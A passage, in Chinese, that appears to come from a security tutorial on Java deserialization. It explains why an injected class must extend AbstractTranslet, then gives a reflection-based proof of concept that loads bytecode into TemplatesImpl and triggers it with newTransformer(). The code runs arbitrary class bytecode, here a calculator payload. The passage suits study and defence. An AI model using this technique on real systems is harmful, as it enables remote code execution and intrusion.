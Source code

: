 classCount 的值是 1，导致`_auxClasses`就成了 null，而这段`if (superClass.getName().equals(*ABSTRACT_TRANSLET*))`superClass 是我们写入危险类的父类，而这段代码要求 superClass 为`ABSTRACT_TRANSLET`(`private static String ABSTRACT_TRANSLET = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";`) 才返回真，我们的目标就是不执行下面的 else，同时\_transletIndex < 0 才不会，所以我们将我们的危险类继承 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。

[![](assets/1700127979-db321124a5161da4e3ccaf9b0079d972.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155216-0faba90e-8455-1.png)

```plain
public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
    }
```
